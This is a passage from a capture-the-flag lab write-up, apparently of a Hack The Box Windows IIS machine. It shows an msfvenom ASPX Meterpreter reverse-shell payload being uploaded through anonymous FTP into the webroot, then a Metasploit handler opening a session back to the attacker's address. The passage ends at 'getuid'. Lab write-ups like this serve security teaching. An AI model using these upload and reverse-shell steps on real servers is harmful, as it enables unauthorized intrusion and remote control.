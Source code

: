 ```bash
```

It couldn't find any sub pages.
Just in case ftp service directory is same with webroot, let's try files I found from ftp service.

`iisstart.htm` and `welcome.png` both return page without an error.
So my assumption was correct!
The test file `test.txt` I uploaded is returned successfully as well.



# Shell as `iis apppool\web`

### Upload webshell

Since I can upload a file on webroot, I can upload a webshell here.
I found meterpreter webshell on kali, and uploaded it through ftp.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f aspx > met_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2859 bytes
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.10.10.5                        
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put met_rev_443.aspx
local: met_rev_443.aspx remote: met_rev_443.aspx
229 Entering Extended Passive Mode (|||49194|)
150 Opening ASCII mode data connection.
100% |*******************************|  2899       12.91 MiB/s    --:-- ETA
226 Transfer complete.
2899 bytes sent in 00:00 (22.34 KiB/s)
```

Then, I can fetch the webdshell via `http://10.10.10.5/met_rev_443.aspx`.

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(multi/handler) > set LPORT 9000
LPORT => 9000
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.10.10.5:49195) at 2025-01-12 08:08:34 +0000

meterpreter > getuid
```
